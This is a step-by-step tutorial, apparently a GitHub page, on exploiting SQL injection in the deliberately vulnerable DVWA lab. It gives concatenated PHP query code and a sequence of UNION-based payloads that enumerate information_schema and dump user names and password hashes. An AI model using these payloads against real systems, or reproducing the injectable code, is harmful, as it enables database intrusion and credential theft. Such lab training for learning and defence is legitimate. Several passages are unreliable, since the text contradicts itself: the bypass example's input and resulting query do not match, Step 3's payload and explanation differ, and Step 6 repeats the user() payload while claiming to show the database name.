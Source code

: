 ## What is SQL injection (SQLi)?
- SQL injection is one of the most common attacks used by hackers to exploit any SQL database-driven web application. It’s a technique where SQL code/statements are inserted in the execution field with an aim of either altering the database contents, dumping useful database contents to the hacker, cause repudiation issues, spoof identity, and much more.

Let’s take a simple scenario where we have a web application with a login form with username and password fields. If the developer used PHP for development, the code would look like this:
```php
<?php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";
$query .= " AND password = '" . $_POST['password'] . "'"; 
?>
```

If a user **Bob** with the password **12345** wanted to log in, after clicking the Submit or the Log in button, the query that would be sent to the database would look like this:
```
SELECT * FROM users WHERE username='Bob' AND password='12345'
```

If an attacker knew the username and wanted to bypass the login window, they would put something like Karen;-- in the username field. The resulting SQL query would look like this:
```
SELECT * FROM users WHERE username='Bob'; -- ' AND password='1111'
```

What the attacker has done, is adding the **-- (double-dash)** which comments the rest of the SQL statement. The above query will return the information entered in the password field making it easier for the attacker to bypass the login screen.

## Pre-requisites
It is expected that you have an up and running **DVWA** setup. If you have not yet installed DVWA on your Kali Linux system, I recommend you to setup up DVWA first.

### Step 1. Setup DVWA for SQL Injection
After successfully installing DVWA, open your browser and enter the required URL **127.0.0.1/dvwa/login.php** Log in using the username “admin” and password as “password”. These are the default DVWA login credentials. After a successful login, set the DVWA security to LOW then click on SQL Injection on the left-side menu.

![DVWA-SQL-Injection](https://user-images.githubusercontent.com/87711310/215311507-0b61b195-902f-461b-9dae-4efcf1a18138.png)

### Step 2: Basic Injection
On the User ID field, enter `1` and click Submit. That is supposed to print the **ID**, **First_name**, and **Surname** on the screen as you can see below.

The SQL syntax being exploited here is:
```
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
```

![DVWA-Basic-SQL-Injection](https://user-images.githubusercontent.com/87711310/215311560-5f40c075-9a85-41fd-89e3-1a20217d0b67.png)

Interestingly, when you check the **URL**, you will see there is an **injectable parameter** which is the `ID`. Currently, my URL looks like this:

```
http://172.16.15.128/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#
```

Let’s change the ID parameter of the URL to a number like **1**, **2**, **3**, **4** etc. That will also return the **First_name** and **Surname** of all users as follows:

```
ID: 2
First name: Gordon
Surname: Brown

ID: 3
First name: Hack
Surname: Me

ID: 4
First name: Pablo
Surname: Picasso
```

If you were executing this command directly on the DVWA database, the query for User ID 3 would look like this:

```
SELECT first_name, last_name FROM users WHERE user_id = '3';
```

### Step 3: Always True Scenario

An advanced method to extract all the **First_names** and Surnames from the database would be to use the input: `%' or '0'='0'`

![always-true-injection](https://user-images.githubusercontent.com/87711310/215312500-aa366d48-3202-430b-b696-c2d46fcedcad.png)

The percentage `%` sign does not equal anything and will be false. The `'1'='1'` query is registered as `True` since `1 will always equal 1`. If you were executing that on a database, the query would look like this:

```
SELECT first_name, last_name FROM users WHERE user_id = '%' or '1'='1';
```

### Step 4: Display Database Version

To know the database version the DVWA application is running on, enter the text below in the User ID field.

```
%' or 0=0 union select null, version() #
```

The database version will be listed under surname in the last line as shown in the image below.

![Display-databse-version](https://user-images.githubusercontent.com/87711310/215312575-e4eb3220-3b58-40e6-8b6c-7cf5933bb931.png)

### Step 5: Display Database User
To display the Database user who executed the `PHP` code powering the database, enter the text below in the `USER ID` field.

```
%' or 0=0 union select null, user() #
```

The Database user is listed next to the surname field in the last line as in the image below.

![Display-database-user](https://user-images.githubusercontent.com/87711310/215312635-9c762216-088f-4023-8d31-aa90c3d72c63.png)


## Step 6: Display Database Name
To display the database name, we will inject the SQL code below in the `User ID` field.

```
%' or 0=0 union select null, user() #
```

The database name is listed next to the `surname` field in the last line.

![Display-database-name](https://user-images.githubusercontent.com/87711310/215312720-544711cf-ef6e-483c-a02c-26ee00a55e27.png)

### Step 7: Display all tables in information_schema

The **Information Schema** stores information about **tables**, **columns**, and all the other databases maintained by **MySQL**. To display all the tables present in the **information_schema**, use the text below.

```
%' and 1=0 union select null, table_name from information_schema.tables #
```

![Database-schema](https://user-images.githubusercontent.com/87711310/215312779-b6e44ddc-b9fb-4fe8-8ce6-01bdd99d6697.png)

### Step 8: Display all the user tables in information_schema

For this step, we will print all the tables that start with the prefix user as stored in the **information_schema**. Enter the SQL code below in the `User ID`.

```
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```

![User-tables](https://user-images.githubusercontent.com/87711310/215312862-ba13e852-b31d-47f1-8c98-79ba30d213d9.png)

### Step 9: Display all the columns fields in the information_schema user table
We will print all the columns present in the users’ table. This information will include column information like User_ID, first_name, last_name, user, and password. Enter the input in the User_ID field.

```
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

![Column-fields](https://user-images.githubusercontent.com/87711310/215313624-3b439ca3-32d4-4db8-9982-ff0388e16680.png)


### Step 10: Display Column field contents
To display all the necessary authentication information present in the columns as stored in the information_schema, use the SQL syntax below:

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

![Column-fields-contents](https://user-images.githubusercontent.com/87711310/215313623-a5c58e25-f3d6-482b-aa93-76f1dc4a444a.png)

